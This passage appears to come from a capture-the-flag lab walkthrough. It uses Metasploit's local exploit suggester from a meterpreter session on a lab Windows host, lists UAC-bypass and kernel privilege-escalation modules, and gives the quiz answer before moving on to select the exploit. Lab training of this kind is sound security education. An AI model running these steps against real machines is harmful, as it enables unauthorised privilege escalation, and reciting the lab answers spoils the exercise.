   x64
  
  #### Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`.
  
  #### Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit ?
  
  `meterpreter > run post/multi/recon/local_exploit_suggester`
  
> [*] 10.10.105.232 - Collecting local exploits for x86/windows...
>   
> [*] 10.10.105.232 - 34 exploit checks are being tried...
>   
> [+] 10.10.105.232 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
>    
> nil versions are discouraged and will be deprecated in Rubygems 4
>   
> [+] 10.10.105.232 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
>   
> [+] 10.10.105.232 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
>   
> [+] 10.10.105.232 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
>   
> [+] 10.10.105.232 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
>   
> [+] 10.10.105.232 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
>   
> [+] 10.10.105.232 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
>   
> [+] 10.10.105.232 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
>   
> [+] 10.10.105.232 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

=> exploit/windows/local/bypassuac_eventvwr
  
Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.
  
  #### Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`.
  